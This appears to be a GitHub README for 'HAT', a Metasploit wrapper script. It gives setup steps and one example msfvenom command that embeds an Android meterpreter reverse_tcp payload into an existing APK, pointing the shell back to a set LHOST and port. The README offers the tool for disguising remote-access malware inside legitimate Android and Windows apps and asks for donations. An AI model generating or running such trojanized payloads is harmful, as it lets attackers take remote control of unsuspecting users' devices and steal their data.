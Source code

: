 HAT PROJECT
###########
*Clone - git clone https://github.com/BLACKRATTX/HAT-Metasploit-Reverse-Engineer-Tools
*Directory - cd /root/HAT-Metasploit-Reverse-Engineer-Tools
*Give permissions - chmod +x HAT.sh
*Execute - sh HAT.sh

*Generate the payloads with msfvenom -x command using existing android/windows applications.
*Example-  msfvenom -x /sdcard/test.apk -p android/meterpreter/reverse_tcp LHOST=168.9.0.1 LPORT=4444 -o /sdcard/payload.apk


"IF YOU LIKE MY HARD WORK, GIMME A CUP OF COFFEE"
DONATE ME: https://www.paypal.me/blackratt505

